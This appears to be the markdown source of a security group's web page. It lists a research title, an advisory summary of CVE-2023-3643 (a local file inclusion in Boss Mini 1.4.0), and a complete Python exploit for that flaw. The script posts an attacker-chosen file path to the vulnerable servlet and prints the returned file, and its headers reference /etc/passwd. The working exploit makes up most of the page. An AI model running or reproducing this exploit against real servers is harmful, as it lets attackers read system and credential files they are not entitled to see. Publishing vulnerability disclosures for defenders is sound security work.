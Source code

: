 ```yaml
---
layout: default
---
```


- # Research
  <details><summary>Exploring IDOR with Bitwise Operators</summary>
  <br>
  <blockquote>by vpr</blockquote></details>

<br>
- #  CVE
  <details><summary>CVE-2023-3643 <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-3643" target="_blank"> <!></a></summary>
  <br><blockquote>
  A vulnerability was found in Boss Mini 1.4.0 Build 6221. It has been classified as critical. This affects an unknown part of the file boss/servlet/document. The manipulation of the argument path leads to file inclusion. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-233889 was assigned to this vulnerability.</blockquote></details>

<br>
- # Exploit
  <details><summary>CVE-2023-3643</summary>
  <br>
  <pre>
  <code>
  
    # Exploit Title: Boss Mini 1.4.0 (Build 6221) - Local File Inclusion (LFI)
    # Date: 07/12/2023
    # Exploit Author: [nltt0] (https://github.com/nltt-br))
    # CVE: CVE-2023-3643


    '''
    _____       _                              _____ 
    /  __ \     | |                            /  ___|
    | /  \/ __ _| | __ _ _ __   __ _  ___  ___ \ `--. 
    | |    / _` | |/ _` | '_ \ / _` |/ _ \/ __| `--. \
    | \__/\ (_| | | (_| | | | | (_| | (_) \__ \/\__/ /
    \____/\__,_|_|\__,_|_| |_|\__, |\___/|___/\____/ 
                                __/ |                 
                              |___/                  

    '''

    from requests import post 
    from urllib.parse import quote
    from argparse import ArgumentParser

    try:
        parser = ArgumentParser(description='Local file inclusion [Boss Mini]')
        parser.add_argument('--domain', required=True, help='Application domain')
        parser.add_argument('--file', required=True, help='Local file')

        args = parser.parse_args()
        host = args.domain
        file = args.file
        url = '{}/boss/servlet/document'.format(host)
        file2 = quote(file, safe='')

        headers = {
            'Host': host,
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange',
            'Referer': 'https://{}/boss/app/report/popup.html?/etc/passwd'.format(host)
        }


        data = {
            'path': file2
        }

        try:
            req = post(url, headers=headers, data=data, verify=False)
            if req.status_code == 200:
                print(req.text)

        except Exception as e:
            print('Error in {}'.format(e))   
          

    except Exception as e:
        print('Error in {}'.format(e))
  
  
  </code></pre></details>




<br>
<br>
<a href="https://www.linkedin.com/company/calangos-security/" target="_blank"><img src="/assets/images/calangoss-icon2.png" width="100" height="68" style="display: block;
  margin-left: auto;
  margin-right: auto;
  ">
</a>